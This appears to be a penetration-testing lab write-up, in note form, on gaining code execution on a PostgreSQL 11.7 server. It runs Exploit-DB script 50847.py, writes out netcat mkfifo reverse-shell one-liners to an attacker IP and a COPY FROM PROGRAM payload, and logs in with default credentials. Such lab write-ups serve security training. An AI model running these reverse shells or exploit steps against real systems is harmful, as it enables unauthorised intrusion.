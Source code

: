 - PostgreSQL 9.3-11.7 - Remote Code Execution (RCE) (Authenticated)                 multiple/remote/50847.py — This will be prioritized as it is within the version and grants RCE
- However, it is authenticated so we may need credentials.
- /usr/share/exploitdb/exploits/multiple/remote/50847.py

### PostGreSQL RCE Exploit (50847.py):

Usage

```
python3 50847.py -i 192.168.78.47 -p 5437          Tue 30 Aug 2022 09:39:12 PM EDT

[+] Connecting to PostgreSQL Database on 192.168.78.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Add the argument -c [COMMAND] to execute a system command
```

- This means that we need to try to put a reverse shell in there for -c!

Attempt:

```
python3 50847.py -i 192.168.78.47 -p 5437 -c 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.78 80 >/tmp/f'

[+] Connecting to PostgreSQL Database on 192.168.78.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Creating table _5dcd0eee46ce6ff4816cf940fc9f7d02
[-] Command failed : ERROR:  program "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.78 80 >/tmp/f" failed
DETAIL:  child process exited with exit code 1

[+] Deleting table _5dcd0eee46ce6ff4816cf940fc9f7d02
```

- Unfortunately, this clearly did not work.

```
'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.78 80 >/tmp/f'

postgres=# COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.143 80 >/tmp/f';COPY 0
```

### Back to the Basics:

- I Googled PostGreSQL default credentials and remembered the psql binary that we can use to connect to a psql server.
- I then attempted default credentials

```
psql -h 192.168.78.47 -p 5437 -U 'postgres'
Password for user postgres: 
psql (14.4 (Debian 14.4-1+b1), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```
